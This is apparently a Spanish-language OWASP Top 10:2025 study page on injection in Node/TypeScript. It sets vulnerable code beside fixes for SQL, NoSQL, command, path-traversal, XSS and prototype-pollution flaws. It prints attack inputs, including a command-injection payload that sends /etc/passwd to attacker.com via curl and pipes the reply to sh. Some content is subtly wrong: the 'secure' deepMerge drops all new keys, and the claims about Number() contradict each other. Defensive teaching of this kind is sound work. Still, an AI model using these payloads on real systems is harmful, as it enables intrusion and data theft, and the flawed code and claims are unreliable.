

# A05:2025 - Inyección

> **Pertenece a:** OWASP Top 10:2025 · [Volver al índice](README.md)

Bajo del **#3 al #5**, pero sigue siendo la categoría con **más CVEs asociados** (38 CWE). La afirmación oficial es útil: incluye desde XSS (alta frecuencia, bajo impacto por petición) hasta inyección SQL (baja frecuencia, impacto total).

La regla es una sola: **nunca construyas una consulta, un comando o una ruta concatenando datos del usuario.**

## 1. Qué es

Cuando el usuario controla una parte de una cadena que el servidor interpreta como código, el atacante deja de ser "datos" y pasa a ser "instrucciones".

| Tipo | Dónde ocurre en Node/TS | Payload típico |
|---|---|---|
| **SQL** | `pg`, `mysql2`, TypeORM, Prisma `$queryRaw` | `' OR '1'='1` |
| **NoSQL** | MongoDB, con operadores `$ne`, `$gt` | `{"password": {"$ne": null}}` |
| **Command** | `child_process.exec`, `execSync` | `; cat /etc/passwd` |
| **Path Traversal** | `fs.readFile`, `res.sendFile` | `../../.env` |
| **XSS** | `dangerouslySetInnerHTML`, plantilla sin escape | `` |
| **Prototype Pollution** | Merge recursivo de objetos del body | `{"__proto__": {"isAdmin": true}}` |
| **Template / ReDoS** | Motor de plantillas, regex sin validar | catastrophic backtracking |

## Diagrama general



## 2. SQL Injection

### Vulnerable ❌

```typescript
// ❌ Concatenación directa
const email = req.query.email as string;
const result = await db.query(
  `SELECT * FROM users WHERE email = '${email}'`,
);

const id = Number(req.params.id);
const posts = await db.query(
  `SELECT * FROM posts WHERE user_id = ${id} AND published = true`,
);

const sort = req.query.sort as string;
const rows = await db.query(`SELECT * FROM products ORDER BY ${sort}`);
```

Explotación del primer caso:

```sql
-- Input: ' OR '1'='1
SELECT * FROM users WHERE email = '' OR '1'='1'
-- → devuelve todos los usuarios, con hash incluido
```

El segundo caso es aún peor: `id` es un `number`, así que no hay comillas de las que escapar. Con `id = 1; DROP TABLE users--` el `Number()` devuelve `NaN` y bloquea la request, pero con `id = 1 OR 1=1` la consulta devuelve todas las filas. El `Number()` no protege: solo cambia el vector de ataque.

El tercer caso es el más sutil: el `ORDER BY` no admite parámetros en SQL estándar, así que la concatenación "parece inevitable". Sí hay solución, con una allowlist.

### Seguro ✅

```typescript
// ✅ Placeholders posicionales ($1, $2, ...)
const email = req.query.email as string;
const users = await pool.query<{ id: string; email: string }>(
  'SELECT id, email FROM users WHERE email = $1',
  [email],
);

// ✅ El tipo numérico ya no es string: el placeholder no se puede eludir
const posts = await pool.query(
  'SELECT id, title FROM posts WHERE user_id = $1 AND published = true',
  [req.params.id],
);

// ✅ ORDER BY con allowlist: el usuario elige la clave, no la expresión
const SORTABLE = ['createdAt', 'title', 'price'] as const;
type Sortable = (typeof SORTABLE)[number];

function parseSort(input: unknown): Sortable {
  return typeof input === 'string' && SORTABLE.includes(input as Sortable)
    ? (input as Sortable)
    : 'createdAt';
}

const rows = await pool.query(
  `SELECT id, title, price FROM products
   ORDER BY ${parseSort(req.query.sort)}
   LIMIT $1 OFFSET $2`,
  [limit, offset],
);
```

> **Importante:** la allowlist es la forma correcta de resolver `ORDER BY`, `GROUP BY` y nombres de columna, porque no son valores sino identificadores, y los placeholders no funcionan con ellos. El template literal es seguro **porque** lo que se interpola viene de un conjunto cerrado, no del request.

### Con ORMs

```typescript
// ❌ TypeORM: query() crudo con concatenación
const users = await repo.query(
  `SELECT * FROM users WHERE name = '${name}'`,
);

// ✅ queryBuilder con parámetros
const users = await repo
  .createQueryBuilder('u')
  .where('u.email = :email', { email }) // parámetro con nombre
  .andWhere('u.role = :role', { role: Role.EDITOR })
  .getMany();

// ✅ Prisma: el tagged template mantiene los parámetros separados
type Row = { id: string; email: string };
const rows = await prisma.$queryRaw<Row[]>`
  SELECT id, email FROM users WHERE email = ${email}
`;
```

```typescript
// ✅ Kysely: los tagged templates son la única forma de escribir SQL
const rows = await db
  .selectFrom('users')
  .select(['id', 'email'])
  .where('email', '=', email) // siempre parametrizado
  .execute();
```

> **⚠️ Cuidado:** Prisma y Kysely parametrizan automáticamente, pero si usas `$queryRawUnsafe` o `$sqlUnsafe`, pierdes esa protección. Esas funciones existen por necesidad (DDL, consultas dinámicas) y son exactamente el punto donde suele aparecer la vulnerabilidad.

## 3. NoSQL Injection

### Vulnerable ❌

```typescript
// ❌ MongoDB: el body es un objeto, no un string
app.post('/api/login', async (req, res) => {
  const user = await UserModel.findOne(req.body);
  // body: { email: { $ne: null }, password: { $ne: null } }
  // → encuentra el primer usuario que coincida con cualquier email y cualquier password
});
```

La inyección aquí no necesita comillas ni `OR`. Los operadores de MongoDB (`$ne`, `$gt`, `$regex`, `$where`) son estructuras de control y el body los transporta tal cual.

### Seguro ✅

```typescript
// ✅ Extraer campos tipados, nunca pasar req.body entero
app.post('/api/login', async (req, res) => {
  const parsed = LoginSchema.safeParse(req.body);
  if (!parsed.success) {
    return res.status(400).json({ error: 'Payload inválido' });
  }

  const user = await UserModel.findOne({ email: parsed.data.email });

  if (!user) {
    return res.status(401).json({ error: 'Credenciales inválidas' });
  }

  const ok = await verifyPassword(user.passwordHash, parsed.data.password);
  if (!ok) {
    return res.status(401).json({ error: 'Credenciales inválidas' });
  }

  res.json({ token: sign(user) });
});
```

```typescript
// ✅ Con Mongoose: sanitización global de filtros
mongoose.set('sanitizeFilter', true);

// ✅ Y prohibiting explícitamente los operadores peligrosos
const LoginSchema = z.object({
  email: z.string().email().max(254),
  password: z.string().min(1).max(128),
}).strict();
```

## 4. Command Injection

### Vulnerable ❌

```typescript
import { exec } from 'node:child_process';

// ❌ exec SIEMPRE pasa por un shell: los metacaracteres se interpretan
app.post('/api/convert', (req, res) => {
  const inputPath = req.body.path as string;
  exec(`convert ${inputPath} out.png`, (err, stdout) => {
    res.send(stdout);
  });
});

// Payload: "; curl http://attacker.com/$(cat /etc/passwd | base64) | sh ; #"
```

### Seguro ✅

```typescript
// ✅ execFile: sin shell, argumentos separados
import { execFile } from 'node:child_process';
import { promisify } from 'node:util';

const execFileAsync = promisify(execFile);

app.post('/api/convert', async (req, res) => {
  const { path } = ConvertSchema.parse(req.body);

  // Validar contra una allowlist de nombres, no contra un path libre
  const safeName = path.replace(/[^a-zA-Z0-9_-]/g, '');
  if (safeName !== path) {
    return res.status(400).json({ error: 'Nombre de archivo inválido' });
  }

  const { stdout } = await execFileAsync(
    '/usr/bin/convert',
    [`/uploads/${safeName}`, '/tmp/out.png'],
    { timeout: 5_000, maxBuffer: 1024 * 1024 }, // límites: no DoS
  );

  res.type('png').send(stdout);
});
```

> **Regla práctica:** si necesitas argumentos que contengan espacios o comillas, nunca uses `exec`. Usa `execFile` o `spawn` con `shell: false` (que es el valor por defecto).

## 5. Path Traversal

### Vulnerable ❌

```typescript
// ❌ El usuario controla la ruta
app.get('/files/:name', (req, res) => {
  const file = path.join(UPLOAD_DIR, req.params.name);
  res.sendFile(file);
});

// GET /files/..%2F..%2F..%2F.env   → lee el .env de la aplicación
```

### Seguro ✅

```typescript
// ✅ Resolver y verificar que sigue dentro de la raíz
import path from 'node:path';

function resolveInside(root: string, requested: string): string {
  const base = path.resolve(root);
  const target = path.resolve(base, requested);

  // path.relative devuelve algo que empieza con '..' si escapa de base
  const rel = path.relative(base, target);
  if (rel.startsWith('..') || path.isAbsolute(rel)) {
    throw new ForbiddenException('Ruta fuera del directorio permitido');
  }

  return target;
}

app.get('/files/:name', (req, res) => {
  const file = resolveInside(UPLOAD_DIR, req.params.name);
  res.sendFile(file);
});
```

```typescript
// ✅ O más simple y más fuerte: permitir solo IDs, nunca nombres
import { randomUUID } from 'node:crypto';

const STORAGE = new Map<string, string>(); // id → ruta real en disco

app.post('/files', upload.single('file'), (req, res) => {
  const id = randomUUID();
  STORAGE.set(id, req.file.path);
  res.json({ id }); // el cliente nunca conoce la ruta del sistema
});

app.get('/files/:id', (req, res) => {
  const realPath = STORAGE.get(req.params.id);
  if (!realPath) return res.status(404).json({ error: 'No encontrado' });
  res.sendFile(realPath);
});
```

## 6. XSS

### Vulnerable ❌

```tsx
// ❌ El comentario de un usuario se inyecta como HTML
export function CommentList({ comments }: { comments: Comment[] }) {
  return (
    <div>
      {comments.map((c) => (
        <div
          key={c.id}
          dangerouslySetInnerHTML={{ __html: c.body }} // el usuario controla el HTML
        />
      ))}
    </div>
  );
}
```

```typescript
// ❌ Plantilla sin escape (EJS, Handlebars sin escapar, etc.)
const html = `<p>${comment.body}</p>`;
```

### Seguro ✅

```tsx
// ✅ React escapa por defecto: esto ya es seguro
export function CommentList({ comments }: { comments: Comment[] }) {
  return (
    <ul>
      {comments.map((c) => (
        <li key={c.id}>{c.body}</li>
      ))}
    </ul>
  );
}
```

```typescript
// ✅ Si necesitas HTML rico: sanitizar en el servidor
import DOMPurify from 'isomorphic-dompurify';

app.post('/api/comments', async (req, res) => {
  const { body } = CommentSchema.parse(req.body);

  // allowlist restrictiva: sin script, sin on*, sin javascript:
  const clean = DOMPurify.sanitize(body, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br', 'a', 'code', 'pre'],
    ALLOWED_ATTR: ['href', 'title'],
    ALLOW_DATA_ATTR: false,
  });

  await repo.create({ body: clean });
  res.status(201).json({ body: clean });
});
```

> **Importante:** sanitizar **en el servidor**. Si sanitize en el cliente, un atacante salta el JS y pega el HTML crudo.

Para el DOM fuera de React:

```typescript
// ✅ Nunca innerHTML con datos externos
element.textContent = userInput; // siempre escapado

// Si necesitas HTML, sanitize primero
element.innerHTML = DOMPurify.sanitize(userInput);
```

| Contexto | ¿Escapa por defecto? |
|---|---|
| JSX: `<div>{valor}</div>` | Sí |
| JSX: `<div dangerouslySetInnerHTML />` | **No** |
| `innerHTML` | **No** |
| `textContent` | Sí (y no interpreta HTML) |
| `href={url}` con `javascript:` | **No** — hay que validar el esquema |

```typescript
// ✅ Validar esquemas de URL antes de ponerlos en href/src
function safeUrl(raw: string): string {
  const url = new URL(raw, 'https://example.com');
  if (!['http:', 'https:', 'mailto:'].includes(url.protocol)) {
    throw new ForbiddenException('Esquema de URL no permitido');
  }
  return url.toString();
}
```

## 7. Prototype Pollution

Ocurre al hacer merge de objetos controlados por el usuario. `__proto__` no es una propiedad como las demás: al asignarla se modifica el prototipo de `Object`, lo que afecta a **todos** los objetos del proceso.

### Vulnerable ❌

```typescript
// ❌ Merge recursivo sin proteger las claves especiales
function deepMerge(target: Record<string, unknown>, src: Record<string, unknown>) {
  for (const [key, value] of Object.entries(src)) {
    if (value && typeof value === 'object') {
      target[key] = deepMerge((target[key] ?? {}) as object, value as object);
    } else {
      target[key] = value;
    }
  }
  return target;
}

const config = deepMerge({}, req.body);
// body: { "__proto__": { "isAdmin": true } }
// → Object.prototype.isAdmin === true en TODO el proceso
```

### Seguro ✅

```typescript
// ✅ Bloquear las claves especiales y usar Object.create(null)
const FORBIDDEN_KEYS = new Set(['__proto__', 'constructor', 'prototype']);

function deepMerge(
  target: Record<string, unknown>,
  src: Record<string, unknown>,
): Record<string, unknown> {
  for (const [key, value] of Object.entries(src)) {
    if (FORBIDDEN_KEYS.has(key)) continue;
    if (!Object.hasOwn(target, key)) continue; // ignora claves del prototipo

    if (value !== null && typeof value === 'object' && !Array.isArray(value)) {
      const base = Object.hasOwn(target, key) ? (target[key] as object) : Object.create(null);
      target[key] = deepMerge(base as Record<string, unknown>, value as Record<string, unknown>);
    } else {
      target[key] = value;
    }
  }
  return target;
}
```

```typescript
// ✅ La defensa real: allowlist de propiedades
const ALLOWED = ['name', 'bio', 'avatarUrl'] as const;

function pickAllowed(body: Record<string, unknown>): Partial<Profile> {
  const out: Record<string, unknown> = Object.create(null);
  for (const key of ALLOWED) {
    if (Object.hasOwn(body, key)) out[key] = body[key];
  }
  return out as Partial<Profile>;
}
```

> **⚠️ Cuidado:** `express.json()` usa `JSON.parse`, que es seguro frente a prototype pollution (a diferencia de las librerías YAML y de los merges). El riesgo aparece en el código que tú escribes después del parseo. `yaml` con `JSON_SCHEMA` es precisamente uno de los vectores más comunes: la clave `__proto__` en YAML sí contamina.

## 8. En NestJS

```typescript
// ✅ Los DTO con class-validator cortan la mayoría de inyecciones en la capa de entrada
export class CreateProductDto {
  @IsString()
  @Length(2, 120)
  @Matches(/^[a-zA-Z0-9áéíóúñÁÉÍÓÚÑ ]+$/)
  name: string;

  @IsInt()      // Int, no String: no hay concatenación posible
  @Min(0)
  priceCents: number;

  @IsOptional()
  @IsArray()
  @ArrayMaxSize(20)   // cota: evita DoS con arrays gigantes
  @IsUUID('4', { each: true })
  tagIds: string[];
}
```

```typescript
// ✅ Consultas parametrizadas en el repositorio
@Injectable()
export class ProductsRepository {
  constructor(private readonly dataSource: DataSource) {}

  async search(filters: SearchFilters): Promise<Product[]> {
    const qb = this.dataSource
      .createQueryBuilder('p')
      .select(['p.id', 'p.name', 'p.priceCents'])
      .where('p.tenantId = :tenantId', { tenantId: filters.tenantId })
      .andWhere('p.priceCents BETWEEN :min AND :max', {
        min: filters.minCents,
        max: filters.maxCents,
      })
      .limit(Math.min(filters.limit ?? 20, 100)); // tope de paginación

    return qb.getMany();
  }
}
```

### Lista de inyección por ORM

| ORM | Inseguro | Seguro |
|---|---|---|
| **Prisma** | `$queryRawUnsafe` | `$queryRaw` con tagged template |
| **TypeORM** | `query()` con concatenación | `createQueryBuilder` con parámetros |
| **Kysely** | `sql.raw()` | Tagged template `sql\`\`` |
| **Mongoose** | `findOne(req.body)` | `findOne({ campo: valor })` tipado |
| **pg** | `query(string)` | `query(string, [params])` |
| **Knex** | `whereRaw(string)` | `whereRaw(string, [params])` |

## 9. Lista de verificación

- [ ] Cero concatenación de datos del usuario en consultas SQL
- [ ] `ORDER BY` / `GROUP BY` / columnas con allowlist, nunca con el input directo
- [ ] `$queryRawUnsafe`, `sql.raw` y `query()` sin uso en código de aplicación
- [ ] Queries de MongoDB construidas con campos tipados, nunca con `req.body` completo
- [ ] `sanitizeFilter` activo en Mongoose
- [ ] `exec` sin usar; `execFile` / `spawn` con `shell: false` y límites de tiempo y memoria
- [ ] Rutas de archivo resueltas con `path.resolve` + verificación de contención
- [ ] Cliente idealmente nunca conoce rutas del sistema de archivos
- [ ] Cero usos de `dangerouslySetInnerHTML` / `innerHTML` sin sanitizar
- [ ] Esquemas de URL validados antes de ir a `href` o `src`
- [ ] Merge de objetos con bloqueo de `__proto__`, `constructor`, `prototype`
- [ ] `Object.create(null)` para diccionarios construidos desde input
- [ ] Validación de entrada en el borde con esquemas cerrados (Zod, class-validator)
- [ ] CSP con nonce estricto como segunda capa (ver [A02](02-configuracion-de-seguridad.md))
- [ ] Cotas de paginación y de tamaño de arrays en todos los endpoints de lista

## Tarjetas de pregunta y respuesta

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>Si valido que <code>id</code> sea un número, ¿no me puedo saltar la inyección SQL?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Depende de cómo valides. Si haces <code>Number(req.params.id)</code>, el valor ya no puede contener comillas, pero sigue siendo un número que concatenas en una cadena: <code>1 OR 1=1</code> sería <code>NaN</code> y bloquearía la request, sí, pero eso es un error de tipo, no seguridad. La defensa no es validar el tipo, es usar placeholders siempre. Con <code>$1</code> el valor es un parámetro y punto.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿Por qué <code>ORDER BY</code> no acepta placeholders?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Porque el marcador de posición representa un <em>valor</em>, y en <code>ORDER BY</code> lo que va ahí es un identificador o una expresión. Por eso la solución correcta es una allowlist: defines las columnas ordenables en el código y mapeas el input a una de ellas. El template literal es seguro justamente porque lo interpolado sale del conjunto cerrado, no del request.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿Prisma y Kysely me protegen de la inyección SQL?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Sí, mientras uses sus APIs parametricadas: <code>$queryRaw</code> con tagged template en Prisma, y los tagged templates de Kysely. Las funciones <code>Unsafe</code> existen para consultas dinámicas que no se pueden parametriar, y ahí es donde suele colarse la vulnerabilidad. Búscalas en el código con un grep: es una revisión rápida y valiosa.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿Cómo es una inyección NoSQL si no hay comillas que escapar?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Porque en MongoDB el "operador" es un valor. Al pasar <code>req.body</code> completo como filtro, el atacante envía <code>{"password": {"$ne": null}}</code>, que es una condición válida, no una cadena. Por eso los operadores como <code>$ne</code>, <code>$gt</code> o <code>$regex</code> son vectores: nunca pases el body entero como query.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿React escapa el contenido automáticamente?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Sí, en JSX: <code>{valor}</code> escapa siempre. La excepción es <code>dangerouslySetInnerHTML</code>, que desactiva el escape por diseño. Si necesitas renderizar HTML de los usuarios, sanitiza con DOMPurify <em>en el servidor</em> y con una allowlist de etiquetas y atributos.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿Por qué es peligroso meter una URL del usuario en <code>href</code>?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>Porque <code>javascript:alert(1)</code> es una URL válida, y al hacer clic se ejecuta el código en el contexto de la página. El escape de React no ayuda: el esquema está en la URL, no en el HTML. Parsea la URL y limita el protocolo a <code>http</code>, <code>https</code> y <code>mailto</code>.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>Si uso <code>express.json()</code>, ¿no necesito preocuparme por prototype pollution?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p>El parseo JSON es seguro: <code>JSON.parse</code> no toca el prototipo. El riesgo está en lo que haces <em>después</em>: merges recursivos, librerías de merge de configuración y sobre todo <code>yaml.load()</code>, que sí es conocido por este problema. Bloquea <code>__proto__</code>, <code>constructor</code> y <code>prototype</code> en cualquier merge, y prefiere allowlists de propiedades.</p>
  </div>
</div>

<div class="qa-card">
  <span class="qa-tag qa-tag-q">Pregunta</span>
  <div class="qa-q"><p>¿Cuál es la diferencia entre <code>exec</code> y <code>execFile</code>?</p></div>
  <div class="qa-a">
    <span class="qa-tag qa-tag-a">Respuesta</span>
    <p><code>exec</code> construye una línea de comando y la pasa por <code>/bin/sh</code>, así que los metacaracteres (<code>;</code>, <code>|</code>, <code>&amp;&amp;</code>, <code>$()</code>) se interpretan. <code>execFile</code> ejecuta el binario directamente con un array de argumentos, sin shell: no hay nada que interpretar. Si necesitas un comando con argumentos, siempre <code>execFile</code> o <code>spawn</code> con <code>shell: false</code>.</p>
  </div>
</div>

---

> **Siguiente tema:** [A06: Diseño Inseguro](06-diseno-inseguro.md)